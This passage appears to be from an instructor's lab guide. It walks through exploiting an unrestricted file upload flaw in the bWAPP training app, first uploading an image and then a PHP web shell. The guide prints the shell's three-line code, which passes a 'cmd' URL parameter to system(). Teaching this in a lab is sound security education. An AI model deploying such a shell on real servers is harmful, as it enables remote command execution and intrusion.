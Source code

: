     - Select **here** to take you to the image that was just uploaded. This will take you to a page to display the image!

    - Refer to the URL of this page: <http://192.168.13.35/images/sample_picture.jpg>. Specifically note the `.jpg` extension.
 
    - Return to the terminal and access the images directory, then show that the image we uploaded was added to the filesystem: 
 
      - `cd images`
 
      - `ls sample-image.jpg`
 
    - Summarize that this step shows the intended functionality of the web application: to allow a user to upload image files to the web application's local filesystem, which can later be accessed and displayed by the user.
  
5. Next we'll upload a malicious PHP script. We will use a custom PHP script called `script.php`, which is designed to enable a malicious user to execute code remotely. 

    - This script looks as follows (note that students don't need to understand the syntax of this script):

          <?php
          $command = $_GET['cmd'];
          echo system($command);
          ?>
 
   - Return to the desktop of your web lab and show that the script has already been created and added there.

6. Return to the file upload webpage and explain that we will now upload this unintended malicious PHP script instead of an image.

   - Select Browse.

   - From Desktop, select `script.php`.

     - This should take you back to the file upload webpage and show the image selected.

   - Select Upload.

   - This will display the following image again:

      ![On the Unrestricted File Upload page of the bWAPP website, an arrow points to the message, "The image has been uploaded here."](Images/LFI7.png) 
